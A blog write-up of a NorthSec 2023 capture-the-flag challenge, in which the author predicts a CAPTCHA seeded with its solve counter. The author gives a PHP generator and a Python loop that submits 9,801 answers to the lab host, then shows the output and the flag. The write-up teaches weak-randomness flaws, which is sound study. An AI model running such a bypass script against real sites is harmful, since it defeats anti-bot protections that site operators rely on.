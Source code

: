```yaml
---
layout: post
title: NorthSec 2023 Writeup - I Got 99^2 Problems
date: 2023-05-22
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2023/05/NorthSec/IGot992Problems
img: 2023/05/NorthSec/IGot992Problems/Description.png
---
```


This challenge was about solving a CAPTCHA that used a predicable value to seed its randomness.

```
Anti-robot captcha to validate. 99^2 valid tries to pass it.

http://igot992problems.ctf 
```

I opened the provided link. 

![CAPTCHA](/assets/images/2023/05/NorthSec/IGot992Problems/Captchat.png "CAPTCHA")

It was simple page with only a CAPTCHA. According to the challenge name, I had to solve it 99^2 (9801) times.

I looked around the page source and found out the PHP code to generate the CAPTCHA text in a comment of a JS file.

![Code to be removed](/assets/images/2023/05/NorthSec/IGot992Problems/CodeToBeRemoved.png "Code to be removed")

This code was generating a random string to use in the CAPTCHA image. It was using the counter of successfully solved CAPTCHA to [seed the random number generator](https://www.php.net/srand). That made it predicable. I could easily write a script that would increment a local counter, generate the CAPTCHA string and submit it.

I copied the PHP code in a file.

```php
<?php
$counter = (int) $argv[1];
srand($counter);
$string='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefhijklmnopqrstuvwxyz1234567890';
$string_shuff=str_shuffle($string);
$text=substr($string_shuff,0,10);

echo $text;
```

Then I wrote a Python script that would call the PHP script to generate the value and submit it.

```python
#!/usr/bin/env python3

import requests;
import os;

url = "http://igot992problems.ctf"
cookies = {
    "PHPSESSID": "57dcc5aeu06gpgf0ncp6683tvn"
}


counter = 0

while True:
    command = f"php gen.php {counter}"
    output_stream = os.popen(command)
    captcha = output_stream.read()
    print(f"{counter} - {captcha}")

    response = requests.get(url + "/captcha-generator/img_gen.php", cookies=cookies)

    data = {
        "value": captcha
    }

    response = requests.post(url, data, cookies=cookies)
    if 'FLAG-' in response.text:
        print('Pwned')
        print(response.text)
        exit()

    if 'Valid Captcha' not in response.text:
        print('Errored out')
        print(response.text)
        exit()
    
    counter += 1
```

I ran the script, and waited for the flag.

```bash
$ ./igot992problem.py
0 - AiEfbC3unc   
1 - 4rcsj5CkLR   
2 - SKeHcF4EOY   
3 - 64P3MvKYlw   
4 - Ik36HYcaRP   
5 - qyGVUkDp0t   
6 - iaY4cS8hKe   

...

9793 - k6xLQeKoWN
9794 - AMLpcZQyVw
9795 - hsxEd30iVq
9796 - 4zyEPVwBO3
9797 - JSepQaTtoP
9798 - M413DVKvCP
9799 - k123mFtWhe
9800 - YzktB8n1sV
Pwned
<p>Valid Captcha. </p><p>Solved 9801 Captcha. </p><p>Congratulations ! FLAG-5911a8911ad6c93a98f46bd63b8ee808</p>
<style>
body {
        background-color: #008080;
}

p {
        background-color: white;
}

</style>

<!DOCTYPE html>
<html lang="en" dir="ltr">
<link rel="stylesheet" href="./captcha-generator/asset/style.css">
  <head>
    <meta charset="utf-8">
    <title>I got 99^2 problems</title>
  </head>
  <body>
  <div>
  <div id="ae_captcha_api"></div>
  </br>
    <form method = "POST" >

                <div><input type="text" placeholder = "Enter Captcha" name="value"/></div>
                <div><input type="submit" formaction="" value = "Submit"/></div>
        </form>
        <script src="./captcha-generator/asset/main.js"></script>
  </div>
  </body>
</html>
```

![Flag](/assets/images/2023/05/NorthSec/IGot992Problems/Flag.png "Flag")